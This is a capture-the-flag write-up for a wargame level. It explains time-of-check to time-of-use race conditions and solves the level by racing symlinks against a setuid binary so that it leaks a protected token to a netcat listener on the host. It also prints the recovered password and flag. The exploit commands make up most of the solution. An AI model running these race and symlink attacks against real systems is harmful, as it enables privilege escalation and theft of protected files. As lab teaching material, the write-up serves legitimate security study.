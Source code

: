 # Level10

## Time-of-check to time-of-use

*In software development, time-of-check to time-of-use (TOCTOU, TOCTTOU or TOC/TOU) is a class of software bugs caused by a race condition involving the checking of the state of a part of a system (such as a security credential) and the use of the results of that check.*

*Real UserID:
The Real UserId is the UserID of its user who initiated the operation. It specifies which documents are accessible to this operation. It is the person who owns the operation.*

*Effective UserID:
The Effective UserID is identical to the Real UserID, but it could be modified to permit a non-privileged person to use the documents that are typically accessible only to privileged users such as the root. It is used by the computing system to determine if you are allowed to do a particular task or not.*
## An Example of this bug:
In Unix, the following C code, when used in a setuid program, has a TOCTOU bug:
```c
if (access("file", W_OK) != 0) {
    exit(1);
}
fd = open("file", O_WRONLY);
write(fd, buffer, sizeof(buffer));
```
Here, access is intended to check whether the real user who executed the setuid program would normally be allowed to write the file (i.e., access checks the real userid rather than effective userid).
This race condition is vulnerable to an attack:
*Victim*:
```c
if (access("file", W_OK) != 0) {
    exit(1);
}

fd = open("file", O_WRONLY);
// Actually writing over /etc/passwd
write(fd, buffer, sizeof(buffer));
```
*Attacker*:
```c
// After the access check
symlink("/etc/passwd", "file");
// Before the open, "file" points to the password database
```
*In this example, an attacker can exploit the race condition between the access and open to trick the setuid victim into overwriting an entry in the system password database. TOCTOU races can be used for privilege escalation to get administrative access to a machine.*
In our case we are going to use this method to read the file `token` 
```bash
ls -la
# Output
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
echo hello > /tmp/test

# On the host
ip_addr=`ifconfig en0 | egrep  "inet [0-9]+\." | awk -F' ' '{print $2}'`

# On the vm
ltrace ./level10 /tmp/test $ip_addr

# Solution
```bash
while :; do ln -sf /tmp/token /tmp/token10; ln -sf /home/user/level10/token /tmp/token10; done

 while :; do nice -n 20 /home/user/level10/level10 /tmp/token10 $ip_addr; done
```
*On host do this*
```bash
while true; do nc -l 6969 >> token; done
# Output
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
```

```bash
su flag10
# passowrd: woupa2yuojeeaaed06riuj63c
getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
